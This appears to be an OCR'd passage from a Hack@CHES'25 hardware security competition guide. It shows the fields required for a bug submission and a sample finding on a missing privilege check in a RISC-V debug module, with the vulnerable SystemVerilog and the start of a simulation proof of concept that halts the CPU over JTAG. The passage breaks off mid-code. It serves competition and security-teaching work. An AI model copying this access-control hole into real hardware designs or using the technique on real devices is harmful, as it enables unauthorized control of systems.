 The Hack@CHES'25 competition requires specific information for each bug submission:

1. **Team name and bug number**
2. **Security feature bypassed** - What protection was circumvented
3. **Detailed finding description** - Technical explanation
4. **Code location** - Exact file and line number
5. **Detection method** - How the bug was found
6. **Security impact** - What an attacker could achieve
7. **Adversary profile** - What type of attacker could exploit this
8. **Proposed mitigation** - How to fix the vulnerability
9. **CVSS score** - Standardized severity rating
10. **Test case** - Code to demonstrate the vulnerability

### Competition Submission Format - Complete Template

Each bug submission for Hack@CHES'25 must include the following fields:

**Bug Submission #1 - Debug Access Control Bypass**

#### Security feature bypassed
Debug module access control and privilege validation system

#### Finding
The debug module CSR interface in `dm_csrs.sv` contains a critical security vulnerability where privilege validation is completely absent for debug operations. Specifically, lines 380-420 handle debug register write requests without any authentication or authorization checks.

The vulnerable code path processes DMI (Debug Module Interface) write requests directly:

```systemverilog
if (dmi_req_i.op == dm::DTM_WRITE) begin
  unique case (dmi_req_i.addr)
    dm::DMControl: begin
      dmcontrol_d = dmi_req_i.data;  // NO PRIVILEGE CHECK
    end
    dm::Command: begin
      command_d = dmi_req_i.data;    // NO AUTHORIZATION
    end
```

This allows any entity with JTAG access to write to critical debug control registers, enabling complete system takeover without proper authentication.

#### Location or code reference
**File**: `./hw/vendor/pulp_riscv_dbg/src/dm_csrs.sv`  
**Line**: 380-420  

**Exploit code**:
```systemverilog
// Proof-of-concept exploit demonstrating unauthorized debug access
module debug_exploit_poc;
  
  // Simulate unauthorized JTAG access
  initial begin
    $display("=== Debug Access Control Bypass Exploit ===");
    
    // Step 1: Connect to debug interface without authentication
    reset_debug_interface();
    
    // Step 2: Write to DMControl register to activate debug mode
    write_dmi_register(dm::DMControl, 32'h80000001);  // dmactive=1, haltreq=1
    
    // Step 3: Verify CPU is now under attacker control
    #100;
    if (cpu_halted) begin
      $display("SUCCESS: CPU halted without authorization!");
      
```